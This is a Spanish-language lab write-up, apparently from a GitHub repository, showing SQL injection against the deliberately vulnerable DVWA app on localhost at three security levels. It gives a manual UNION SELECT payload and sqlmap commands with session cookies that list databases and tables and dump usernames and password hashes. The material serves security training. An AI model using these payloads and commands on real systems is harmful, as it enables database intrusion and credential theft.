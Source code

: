 # SQLi

SQLi es una vulnerabilidad que permite a un atacante inyectar código SQL en una aplicación web. El atacante puede utilizar esta vulnerabilidad para obtener información sensible de la base de datos, como por ejemplo las contraseñas de los usuarios.

Se ha utilizado la herramienta SQLmap para realizar el ataque de inyección SQL y Burp Suite para interceptar el tráfico entre el cliente y el servidor.

> **WARNING**: Para la reproducción de este ataque se requerira cambiar algunas partes de los comandos mostrados a continuación, como por ejemplo la cookie de sesión y/o la IP del servidor

## Bajo
En este nivel, la vulnerabilidad se encuentra claramente en la siguiente línea, que
permite introducir entradas maliciosas manipulando la cadena de consulta SQL:

```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"
```

En este nivel se intentó inicialmente introducir entradas maliciosas manualmente.
La siguiente entrada permite obtener la contraseña (aún encriptada):
```
' UNION SELECT first_name,password FROM users;-- -&Submit=Submit
```

El objetivo de la cadena maliciosa es doble:

- En primer lugar, se escapa la consulta inicial y se fusiona con otra consulta que permite obtener la contraseña de todos los usuarios. Cabe destacar que sólo es posible incluir 2 columnas, ya que en caso contrario la petición HTTP falla.
- En segundo lugar, se debe escapar la consulta SQL, comentando el resto de la cadena, para así poder realizar la petición.

También se utilizó la herramienta SQLMap para obtener las contraseñas de manera automática y también para descifrarlas, ya que se observa que están encriptadas mediante MD5. A continuación se describe la metodología empleada:

Se ha capturado la cookie de sesión al hacer una petición a través de la página web. En este apartado se llevó a cabo inspeccionando el tráfico con el navegador, pero es posible utilizar herramientas como Burpsuite o Live HTTP headers para interceptar y manipular el tráfico.

Después, se ha construido el comando que lanza SQLMap e inicia las pruebas de inyección SQL:

> **NOTA:** SQLMap requiere algún parámetro **inyectable** (por ejemplo, en una query, un formulario o una cookie, entre otros) para poder realizar las pruebas de inyección SQL.

> **NOTA:** Se incluye también la cookie interceptada para realizar la petición con una sesión activa.

Seguidamente, se inspecciona de manera gradual la estructura de la base de datos, comenzando por obtener los nombres de los esquemas, y profundizando en ellos hasta llegar al nivel de las propias tablas:

- A nivel de **esquemas**:
    ```bash
    sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch --dbs
    ```
    ![dbs](assets/sqli_dbs.png)

- A **nivel relacional** en el esquema `dvwa`:
    ```bash
    sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa --tables
    ```
    ![tabs](assets/sqli_tabs.png)

- A nivel de **tabla** en la entidad `users`:
    ```bash
    sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa -T users --columns
    ```
    ![cols](assets/sqli_cols.png)


Finalmente, se obtiene el contenido de la tabla de usuarios con el siguiente comando, que vuelca las columnas seleccionadas (y se se desea se pueden desencriptar):

![dump](assets/sqli_dump.png)

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low" --batch -D dvwa -T users -C user,password --dump
```

## Medio
Ahora la petición se realiza mediante un formulario, por lo que SQLmap es una herramienta ideal en este apartado. 
Aún así, se podría hacer de manera manual con la misma consulta ligeramente transformada (hace uso de la función `mysql_real_escape_string()`, por lo que hay que reestructurarla manualmente), enviada a través del formulario por POST.

Se ha escogido la primera opción por simplicidad, ya que el comando necesario para realizar la inyección es muy similar. Sólo hay que añadir la petición mediante formulario por POST:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/#" --cookie "PHPSESSID=nvptnh9pkg3tjbnt391ut2vodi; security=low"  --data "id=1&Submit=Submit" --batch --dbs
```

![med](assets/sqli_med.png)

Se puede evitar la fase de inspección de la base de datos, aunque si fuera necesario el procedimiento es análogo.

## Alto

En este nivel el identificador se introduce en la propia cookie. Además, el formulario se envía desde otra página distinta, por lo que es necesario incluir una url secundaria que sirve como punto de recepción de los resultados del ataque. La url secundaria será . Por lo demás, el comando es muy similar. 

En este apartado se ha usado además BurpSuite para interceptar el tráfico al lanzar una petición desde el formulario de la ventana emergente y así obtener la cookie necesaria. El procedimiento es análogo a los anteriores con el nuevo comando:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/session-input.php" --cookie "PHPSESSID=<session>; security=high" --data="id=1&Submit&Submit" --second-url "http://localhost/DVWA/vulnerabilities/sqli" --batch -D dvwa -T users -C user,password --dump
```

El efecto de añadir la url secundaria es capturar la redirección para obtener los resultados de la inyección.
![redir](assets/sqli_redir_hi.png)

El resultado es de nuevo la lista de usuarios con sus contraseñas:
![hi](assets/sqli_hi.png)